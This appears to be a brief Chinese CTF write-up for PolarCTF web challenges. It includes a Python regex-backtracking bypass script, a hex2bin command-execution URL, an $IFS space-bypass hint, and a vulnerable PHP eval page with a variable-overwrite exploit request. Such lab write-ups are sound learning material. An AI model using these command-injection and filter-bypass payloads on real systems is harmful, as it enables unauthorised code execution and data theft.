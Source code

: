 # web
### swp
递归绕过正则限制
```python
import requests
data = {"xdmtql": "sys nb" + "aaaaa" * 1000000}
res = requests.post('http://d9d00980-d2fc-412e-b6cc-b6db2562eafb.www.polarctf.com:8090/index.php', data=data, allow_redirects=False)
print(res.content)

```

### 简单rce
$IFS空格绕过+sort读取文件

### 上传


### 非常好绕的命令执行

hex2bin转换
`http://1ae67e55-509c-49e4-9bf7-a04be9788ca5.www.polarctf.com:8090/?args1=hex2bin&args2='73797374656d'&args3='ls'`

### php是世界上最好的语言
变量覆盖
```php
<?php
//flag in $flag
highlight_file(__FILE__);
include("flag.php");
$c=$_POST['sys'];
$key1 = 0;
$key2 = 0;
if(isset($_GET['flag1']) || isset($_GET['flag2']) || isset($_POST['flag1']) || isset($_POST['flag2'])) {
    die("nonononono");
}
@parse_str($_SERVER['QUERY_STRING']);
extract($_POST);
if($flag1 == '8gen1' && $flag2 == '8gen1') {
    if(isset($_POST['504_SYS.COM'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\?/", $c)){
         eval("$c");  

    }
}
}
?>
```

```http
http://www.xxx.com?_POST[flag1]=8gen1&_POST[flag2]=8gen1
post:sys=echo($flag);&504[SYS.COM=a
```

### \$\$
`$GLOBALS`全局变量
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231211154038.png)


# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2023-12-09   23:22